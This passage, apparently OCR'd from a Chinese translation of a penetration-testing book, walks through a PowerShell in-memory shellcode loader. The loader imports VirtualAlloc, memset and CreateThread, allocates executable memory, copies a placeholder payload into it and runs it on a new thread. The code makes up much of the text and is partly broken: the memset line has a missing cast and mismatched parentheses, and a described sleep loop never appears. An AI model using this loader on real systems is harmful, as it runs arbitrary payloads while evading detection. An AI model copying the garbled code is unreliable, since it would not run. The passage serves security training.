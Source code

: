 首先，我们将用 C# 签名定义函数；这些函数将存储在名为 **$signatures** 的变量中。然后，我们使用 **Add-Type** 将它们引入我们的 PowerShell 会话。我们来看看：

```
$signatures = '[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect); 
```

```
[DllImport("kernel32.dll")]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId); 
```

```
[DllImport("msvcrt.dll")]public static extern IntPtr memset(IntPtr dest, uint src, uint count);'; 
```

```
$functionImport = Add-Type -MemberDefinition $signatures -Name "Win32" -NameSpace Win32Functions -PassThru;
```

好的，这并没有那么痛苦。我们创建了 **$signatures** 变量，并且在其中包含了将两个 DLL 中的三个函数引入的代码。最后，我们创建了一个名为 **$functionImport** 的对象，它现在包含了这些函数。从这时起，我们只需要与 **$functionImport** 交互来调用这些函数。

现在，我们需要创建一个名为**$shellcode**的字节数组。这个数组将包含我们有效负载的每个字节，我们将使用**For**循环来依次引用每个元素：

```
[Byte[]] $shellcode = <Tasty Bytes Go Here>; 
```

```
$size = $shellcode.Length
```

```
$allocSpace = $functionImport::VirtualAlloc(0, $size, 0x3000, 0x40);
```

请注意，我们告诉**VirtualAlloc()**精确的 shellcode 大小。其他参数呢？在你解析这段代码（以及你未来在职业生涯中遇到的其他代码）时，注意我们最初是如何定义这些参数的：**IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect**。这告诉我们，**VirtualAlloc()**将按顺序期待一个地址、一个大小、一个分配类型以及分配空间中将使用的内存保护类型。像往常一样，我鼓励你跳出这些页面，深入了解更多细节。

我们的倒数第二步是使用**memset()**将我们分配空间的每个位置设置为来自 shellcode 的一个字符。正如你能想象的那样，最佳的实现方式是使用**For**循环。我们将声明一个名为**$position**的计数器，并随着它的递增，**memset()**会将相应的字节设置到分配空间中，使用**$position**作为偏移量，结合**$allocSpace**来确定确切的位置：

```
For ($position = 0; $position -le ($shellcode.Length - 1); $position++) { 
```

```
    $functionImport::memset(IntPtr + $position), $shellcode[$position], 1) 
```

```
};
```

陷阱已设下。我们只需要执行它。正如你从我们定义**$signatures**时记得的，传递给**CreateThread()**的第三个参数是起始地址——在这个例子中就是**$allocSpace**。最后，为了在新线程运行时保持进程的持续运行，我们使用**While ($true)**来创建一个无限休眠。或许有一天会做个美梦？

```
$functionImport::CreateThread(0, 0, $allocSpace, 0, 0, 0); 
```
